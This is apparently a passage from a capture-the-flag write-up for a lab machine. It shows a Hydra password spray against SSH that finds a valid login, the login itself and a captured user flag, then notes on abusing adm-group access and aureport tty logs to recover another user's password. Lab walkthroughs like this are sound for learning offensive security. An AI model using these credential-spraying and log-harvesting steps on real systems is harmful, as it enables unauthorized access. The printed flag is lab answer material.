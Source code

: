 
    $ hydra  -L users -p 'mySup3rP4s5w0rd!!' ssh://10.129.39.166
    Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-11 08:34:04
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 15 tasks per 1 server, overall 15 tasks, 15 login tries (l:15/p:1), ~1 try per task
    [DATA] attacking ssh://10.129.39.166:22/
    [22][ssh] host: 10.129.39.166   login: cry0l1t3   password: mySup3rP4s5w0rd!!
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-11 08:34:09


    $ ssh -l cry0l1t3 10.129.39.166
    cry0l1t3@10.129.39.166's password:
    Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-52-generic x86_64)

    * Documentation:  https://help.ubuntu.com
    * Management:     https://landscape.canonical.com
    * Support:        https://ubuntu.com/advantage

      System information as of Wed 11 Nov 2020 01:53:21 PM UTC

      System load:             0.0
      Usage of /:              44.5% of 15.68GB
      Memory usage:            18%
      Swap usage:              0%
      Processes:               171
      Users logged in:         0
      IPv4 address for ens160: 10.129.39.166
      IPv6 address for ens160: dead:beef::250:56ff:feb9:a424


    0 updates can be installed immediately.
    0 of these updates are security updates.

    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


    Last login: Wed Nov  11 13:35:52 2020 from 10.10.14.20
    $ cat user.txt
    c3a5e57a709f0c1bdc6874b9ad7af1b1

# Root

## lateral movement

Our user is in the `adm` group. We can run `bash` to have a better shell.

$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)

According to GNU/Linux [documentation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)
this group has access to `/var/log/` but there is nothing of interest there. We
also have access to the `aureport` command and list the `tty` access containing
`mrb3n` password.
